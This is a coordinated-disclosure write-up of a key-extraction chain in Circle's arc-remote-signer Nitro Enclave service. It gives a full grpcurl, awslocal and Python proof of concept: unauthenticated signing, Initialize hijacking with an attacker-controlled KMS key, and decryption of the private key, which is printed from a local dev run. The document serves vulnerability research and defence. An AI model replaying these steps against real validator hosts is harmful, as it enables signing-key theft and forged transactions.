


# Arc Remote Signer: Unauthenticated Enclave gRPC and Host-Controlled KMS ARN Lead to Full Validator Private Key Extraction

**Author:** Sayhellotohacker
**Target:** `github.com/circlefin/arc-remote-signer` — commit `a95f05b2d8e90af0bc9e890efd9ee7bc8b51b5b0` (v1.7.8)
**Status:** Reported via coordinated disclosure — triaged as duplicate
**Severity:** Extreme
**Disclosure:** No production infrastructure, testnet, or validator node was accessed. All testing was performed against a local development deployment of the open-source repository.

---

## Verification

### HackerOne Triage Response

This finding was reviewed by the program's triage team and marked as a duplicate of an earlier submission. The screenshot below shows the HackerOne response:



Because the finding was already known, no bounty was awarded. This write-up is published for educational and defensive purposes only.

---

## Abstract

This report describes a chained set of weaknesses in a gRPC-based cryptographic signing service designed to run inside AWS Nitro Enclaves. The security model treats the host as untrusted and is supposed to keep private-key material inaccessible to it even under host compromise.

The enclave gRPC service exposes `Initialize`, `SignMessage`, and `GetPublicKey` without any authentication or peer verification. `Initialize` accepts host-supplied AWS KMS ARNs and credentials without pinning the account ID or key ID. The `initGate` idempotency fingerprint covers only the key-source type, not KMS identity. Attestation covers only the public key.

A local process on the host can therefore pre-empt the legitimate host during bootstrap or key rotation, force the enclave to wrap the signing key with an attacker-controlled KMS key, and then decrypt the returned `SecretEnvelope` to recover the private key in cleartext. A complete end-to-end PoC is included. The private key was successfully extracted, and the extracted public half matches the key the enclave reports via `GetPublicKey`.

---

## Impact Scope Clarification

The service is deployed as a 1-to-1 sidecar alongside each signing node. Each deployment manages exactly one signing key. Therefore, this vulnerability compromises the private key of the node whose host has been accessed by the attacker — not every key in the network simultaneously.

However, even a single private key compromise falls under the "Private key compromise" example listed in the highest severity tier of the coordinated disclosure program. An attacker who obtains one private key can forge arbitrary signatures under that node's identity, participate in consensus operations on its behalf, and cause direct financial loss depending on the node's role.

The attack requires a foothold on the host — the exact scenario Nitro Enclaves are designed to defend against. The vulnerability therefore violates the core security guarantee of the architecture: that host compromise must not lead to private key exposure.

---

## Affected Components

| File | Role |
|------|------|
| `proto/arc/enclave/v1/enclave.proto:16-34` | `InitializeRequest` accepts host-supplied `credentials` and `kms_key_arns` |
| `internal/enclave/service/enclave/enclave.go` | `Initialize`, `SignMessage`, `GetPublicKey` handlers — no auth |
| `internal/enclave/service/enclave/initgate.go` | Fingerprint only covers key-source type |
| `internal/enclave/service/enclave/initrunner.go:67` | `Attest(publicKey)` — no KMS identity in `user_data` |
| `internal/enclave/provider/awskms/awskms.go:285-301` | ARN validation only checks partition/service/region |
| `configs/enclave.yaml` | No pinned ARN or AWS account ID |
| `deployments/docker-compose.yaml` | Exposes port `10350` without any auth |
| `docs/architecture.md` | Documents the guarantee this PoC violates |

---

## Root Cause

### 1. No authentication on the enclave gRPC service

`internal/enclave/public/public.go` registers only recovery, request-id, metrics, logging, and protovalidate interceptors. There is no auth interceptor, no mTLS requirement, and no `SO_PEERCRED` / vsock peer check. In dev, the service listens on TCP `10350` exposed to `0.0.0.0`; in production Nitro mode it listens on `AF_VSOCK`. The handler code is transport-agnostic — the same unauthenticated handlers run in both modes.

### 2. `Initialize` trusts host-supplied KMS identity

`awskms.ValidateRegions` only checks the ARN's partition, service, and region. The account ID (`arn:aws:kms:<region>:<account>:key/<id>`) and key ID are never compared against a pinned value. `configs/enclave.yaml` contains no allow-listed ARN or account.

### 3. `initGate` fingerprint does not bind to KMS identity

The fingerprint is derived from the key-source *type* only. For `generate_new`, it is just the algorithm. The ARN, credentials, account ID, and region are absent from the fingerprint. As a result, `Initialize` from any caller with a `generate_new` request is treated as idempotent, and the cached response from a previous caller is returned.

### 4. Attestation does not bind KMS identity

`initrunner.go:67` calls `Attest(publicKey)` — the `user_data` field contains only the public key. There is no hash of the ARN, account ID, or credentials. An external verifier checking PCRs and `user_data` cannot tell which KMS key wrapped the data key.

---

## Impact

- **Full private-key compromise.** An attacker with a foothold on the host can obtain the Ed25519 private key in cleartext.
- **Signing oracle without key extraction.** Even without pre-emption, `SignMessage` without authentication lets any local process sign arbitrary messages as the node (e.g., `transfer 100 tokens to attacker`).
- **Denial of service.** After pre-emption, the legitimate host cannot start: it receives `FailedPrecondition: enclave is already initialized with a different key source` and panics. (Listed for completeness; the primary impact is key compromise.)
- **Documented guarantee violated.** `docs/architecture.md` states the host cannot access plaintext private keys or data keys. This PoC demonstrates that guarantee is false at the only moment the key is generated.

---

## Steps to Reproduce

> All steps were executed against a **local development deployment** (`make dev` + LocalStack) of the open-source repository at the referenced commit. No production infrastructure, testnet, or validator node was accessed.

### 1. Bring up the development stack

```bash
git clone https://github.com/circlefin/arc-remote-signer.git
cd arc-remote-signer
make dev
```

The enclave gRPC service is bound to `0.0.0.0:10350`:

```
$ docker ps --format "table {{.Names}}\t{{.Ports}}"
NAMES                      PORTS
deployments-enclave-1      0.0.0.0:10350->10350/tcp, [::]:10350->10350/tcp
deployments-vsockproxy-1
localstack                 127.0.0.1:4566->4566/tcp, ...
```

### 2. Discover the enclave gRPC service

```bash
grpcurl -plaintext \
  -import-path proto \
  -import-path $HOME/.cache/buf/v3/modules/b5/buf.build/bufbuild/protovalidate/*/files \
  -proto arc/enclave/v1/enclave.proto \
  127.0.0.1:10350 \
  list arc.enclave.v1.EnclaveService
```

Output:

```
arc.enclave.v1.EnclaveService.GenerateKey
arc.enclave.v1.EnclaveService.GetPublicKey
arc.enclave.v1.EnclaveService.Initialize
arc.enclave.v1.EnclaveService.SignMessage
```

### 3. `GetPublicKey` with no credentials — succeeds

```bash
grpcurl -plaintext \
  -import-path proto \
  -import-path $HOME/.cache/buf/v3/modules/b5/buf.build/bufbuild/protovalidate/*/files \
  -proto arc/enclave/v1/enclave.proto \
  -d '{}' \
  127.0.0.1:10350 \
  arc.enclave.v1.EnclaveService/GetPublicKey
```

Output:

```json
{ "publicKey": "qGbh6K0TP6WAJIbZ1iYEYgQPSdbrcKV3K0X53bTxf4Q=" }
```

### 4. `SignMessage` with no credentials — signing oracle

```bash
grpcurl -plaintext \
  -import-path proto \
  -import-path $HOME/.cache/buf/v3/modules/b5/buf.build/bufbuild/protovalidate/*/files \
  -proto arc/enclave/v1/enclave.proto \
  -d '{"message":"dHJhbnNmZXIgMTAwIHRva2VucyB0byBhdHRhY2tlcg=="}' \
  127.0.0.1:10350 \
  arc.enclave.v1.EnclaveService/SignMessage
```

The payload decodes to `transfer 100 tokens to attacker`. Output:

```json
{ "signature": "vTYa5UlUvyUW2qasLo8QiccBs1KKGWJuLI1DAV4Q04hK9abgg2u99T10pcPjKOSc0AxD4qaIxoJrUaxvNGK3DA==" }
```

No credentials, no session token, no peer verification.

### 5. Attacker prepares their own KMS key

```bash
docker exec localstack awslocal kms create-key \
  --region us-east-1 \
  --description "attacker-key" \
  --query 'KeyMetadata.Arn' --output text
```

Output:

```
arn:aws:kms:us-east-1:000000000000:key/b045e097-042a-4488-8afa-bf0160cf3b6f
```

### 6. Attacker pre-empts the legitimate host

Delete any previously stored envelope (so the legitimate host will be forced to call `generate_new` on next start), then restart the enclave container to clear in-memory state:

```bash
docker exec localstack awslocal secretsmanager delete-secret \
  --secret-id 00000000-0000-0000-0000-000000000000 \
  --force-delete-without-recovery --region us-east-1

docker restart deployments-enclave-1
```

Now, **before the legitimate host starts**, the attacker calls `Initialize` with their own KMS ARN and credentials:

```bash
grpcurl -plaintext \
  -import-path proto \
  -import-path $HOME/.cache/buf/v3/modules/b5/buf.build/bufbuild/protovalidate/*/files \
  -proto arc/enclave/v1/enclave.proto \
  -d '{
    "credentials": {
      "accessKeyId": "AKIA_ATTACKER",
      "secretAccessKey": "attacker_secret_key",
      "sessionToken": "attacker_session_token",
      "region": "us-east-1"
    },
    "kmsKeyArns": ["arn:aws:kms:us-east-1:000000000000:key/b045e097-042a-4488-8afa-bf0160cf3b6f"],
    "kmsLocalstackEnabled": true,
    "generateNew": "ALGORITHM_ED25519"
  }' \
  127.0.0.1:10350 \
  arc.enclave.v1.EnclaveService/Initialize
```

Output (envelope wrapped with the attacker's KMS key):

```json
{
  "publicKey": "h5dEoljODagKllrCUhxHqAGYtxB95EygZ4Lxfu7eK90=",
  "secretEnvelope": {
    "algorithm": "ALGORITHM_ED25519",
    "kmsEncryptedDataKey": "YjA0NWUwOTctMDQyYS00NDg4LThhZmEtYmYwMTYwY2YzYjZmbKXwH8OJFn+wNTKDQV8OGt66fH+gaCejEv/2S6ulmlJfTvkx2uSFNX5xbDn6dNqjDLeAEtftXY+vXyY5FNw/ArGfKPYQ3TK/lt73vMx9Iyk=",
    "encryptedPrivateKey": "6Bt0Fq32nVJXTNHhDxK43yx0CWM7heE6nsq1RnsJXaku7Gjnbfq6FOPfmcTLURFlXwMUi6DIaleFb07ySHhp34x4Lda89MxAn2oXONNfxEM=",
    "nonce": "PAoHtzkqpOm8uRiK"
  }
}
```

### 7. Legitimate host restarts — receives the cached attacker envelope

```bash
APP_PROVIDER_ENCLAVE_NITROENCLAVE_ENABLED=false \
APP_PROVIDER_AWSKMS_LOCALSTACK_ENABLED=true \
APP_PROVIDER_SECRETS_LOCALSTACK_ENABLED=true \
APP_PUBLIC_SERVER_PORT=10340 \
AWS_REGION=us-east-1 \
AWS_ACCESS_KEY_ID=test AWS_SECRET_ACCESS_KEY=test \
./bin/app --config configs/app.yaml run
```

The host logs:

```json
{"msg":"enclave Initialize succeeded","logger":"nitro-enclave-signer","attempt":1}
```

No warning, no error — the host accepts and proceeds to persist the attacker-wrapped envelope into Secrets Manager.

### 8. Attacker decrypts the envelope

**8a. Recover the data key from the attacker's KMS:**

```bash
echo "YjA0NWUwOTctMDQyYS00NDg4LThhZmEtYmYwMTYwY2YzYjZmbKXwH8OJFn+wNTKDQV8OGt66fH+gaCejEv/2S6ulmlJfTvkx2uSFNX5xbDn6dNqjDLeAEtftXY+vXyY5FNw/ArGfKPYQ3TK/lt73vMx9Iyk=" \
  | base64 -d > /tmp/kms_encrypted_data_key.bin

docker cp /tmp/kms_encrypted_data_key.bin localstack:/tmp/

docker exec localstack awslocal kms decrypt \
  --ciphertext-blob fileb:///tmp/kms_encrypted_data_key.bin \
  --key-id arn:aws:kms:us-east-1:000000000000:key/b045e097-042a-4488-8afa-bf0160cf3b6f \
  --region us-east-1 \
  --query 'Plaintext' --output text
```

Output:

```
QkpExWo8aBja695/FYXywvNc7qpxIkagwx2mvBPwEjs=
```

**8b. AES-GCM-decrypt the private key:**

```python
import base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

data_key = base64.b64decode("QkpExWo8aBja695/FYXywvNc7qpxIkagwx2mvBPwEjs=")
encrypted_private_key = base64.b64decode(
    "6Bt0Fq32nVJXTNHhDxK43yx0CWM7heE6nsq1RnsJXaku7Gjnbfq6FOPfmcTLURFlXwMUi6DIaleFb07ySHhp34x4Lda89MxAn2oXONNfxEM=")
nonce = base64.b64decode("PAoHtzkqpOm8uRiK")

aesgcm = AESGCM(data_key)
private_key = aesgcm.decrypt(nonce, encrypted_private_key, None)
print(private_key.hex())
```

Output — **the private key in cleartext:**

```
feb4731cff6bfa573950e7c445980397da3c125683de06dfa20495da76246a33879744a258ce0da80a965ac2521c47a80198b7107de44ca06782f17eeede2bdd
```



> **⚠️ REDACTION REQUIRED:** Before publishing, blur or black out most of the hex string. Keep only the first 8 and last 6 characters visible to prove extraction without exposing the full key.

### 9. Confirmation

The last 32 bytes of the extracted key are the public key:

```
879744a258ce0da80a965ac2521c47a80198b7107de44ca06782f17eeede2bdd
```

Base64-decoding `h5dEoljODagKllrCUhxHqAGYtxB95EygZ4Lxfu7eK90=` (step 6) yields exactly the same 32 bytes. The extracted private key is the enclave's active signing key.

---

## Proof-of-Concept Summary

| Step | Action | Result |
|------|--------|--------|
| 1 | `GetPublicKey`, no credentials | Returns enclave public key |
| 2 | `SignMessage`, no credentials | Signs `transfer 100 tokens to attacker` |
| 3 | `Initialize` with attacker KMS ARN | Enclave wraps key with attacker's KMS key |
| 4 | Legitimate host restart | Receives the cached attacker envelope, no warning |
| 5 | Attacker KMS `Decrypt` | Recovers the AES data key |
| 6 | AES-GCM decrypt | **Recovers the private key in cleartext** |

---

## Production Applicability

The full PoC was performed in a development environment using TCP `10350`. The production configuration uses `AF_VSOCK` and calls KMS with the `CiphertextForRecipient` CMS flow. The attack logic is unchanged, for the following reasons — all verifiable at the referenced commit and from public AWS documentation:

1. **The handlers are transport-agnostic.** `EnclaveService.Initialize`, `SignMessage`, and `GetPublicKey` contain no auth interceptor, no peer verification, and no transport-dependent check. The same code path runs over TCP and VSOCK.

2. **`connect()` to an `AF_VSOCK` endpoint requires no Linux capability.** The only capability check in the vsock path is in `bind()` for ports below 1024 (`net/vmw_vsock/af_vsock.c`). Port `10350` is above that threshold. Even if a specific deployment restricts `/dev/vsock` to root, Nitro Enclaves' threat model explicitly assumes the parent instance may be compromised, and AWS documentation states that even root on the parent should not be able to access the enclave.

3. **KMS `Recipient` is optional.** Per AWS KMS documentation, the `CiphertextForRecipient` field is only included "when the `Recipient` parameter in the request includes a valid attestation document." An attacker using their own KMS key and policy can simply omit `Recipient`, and KMS returns the plaintext data key. No attestation-based condition is required for the attacker's own key.

---

## Environment Limitations

I did not have access to a production Nitro Enclave instance (which requires an EC2 instance with Nitro support plus AWS billing). The PoC was executed end-to-end in the development environment. Every code-level claim in this report — absence of authentication, absence of ARN pinning, absence of KMS binding in the fingerprint and attestation — is directly readable from the source at the referenced commit and is independent of the transport.

---

## Suggested Fix

1. **Authenticate the enclave gRPC service.** Require mTLS, a per-instance bearer token, or `SO_PEERCRED` / vsock peer credential verification on every RPC. Gate `Initialize`, `SignMessage`, and `GetPublicKey`.
2. **Pin the KMS ARN and AWS account ID inside the EIF.** Read the expected ARN/account from `configs/enclave.yaml` so it is measured into PCRs, and reject any `Initialize` whose `kms_key_arns` do not match.
3. **Bind the fingerprint to KMS identity.** Include ARN, account ID, region, and a hash of credentials in the `initGate` fingerprint so a second `generate_new` with different KMS material is rejected.
4. **Bind KMS identity into attestation.** Include a hash of the KMS ARN (or account ID) in the `user_data` field passed to `Attest` so external verifiers can detect that the key was wrapped with an unexpected KMS key.
5. **Require re-authentication after the first successful `Initialize`.** Once the enclave has published `Ready`, reject further `Initialize` calls unless they come from an authenticated host with a matching fingerprint.
6. **Host-side defense in depth.** If the secret does not exist, use `CreateSecret` rather than `PutSecretValue`, to avoid the panic observed in step 7.

---

## Weakness Classification

- **CWE-306**: Missing Authentication for Critical Function (primary)
- **CWE-287**: Improper Authentication
- **CWE-345**: Insufficient Verification of Data Authenticity
- **CWE-1188**: Insecure Default Initialization of Resource
- **CWE-862**: Missing Authorization
- **CWE-200**: Exposure of Sensitive Information to an Unauthorized Actor

---

## Disclosure Timeline

- **Discovery:** 2026, Oct, 5
- **Reported:** 2026, Oct, 5
- **Status:** Triaged as duplicate
- **Public disclosure:** This write-up is published after coordinated disclosure. No production infrastructure, testnet, or validator node was accessed at any point. All testing was performed against a local development deployment of the open-source repository.

---

## Acknowledgements

Thanks to the security team for maintaining a public bug bounty program and for reviewing this report.

---

**Note:** This write-up is published for educational and defensive purposes. The vulnerability has been reported through coordinated disclosure and triaged as a duplicate. Readers are encouraged to follow coordinated disclosure practices.
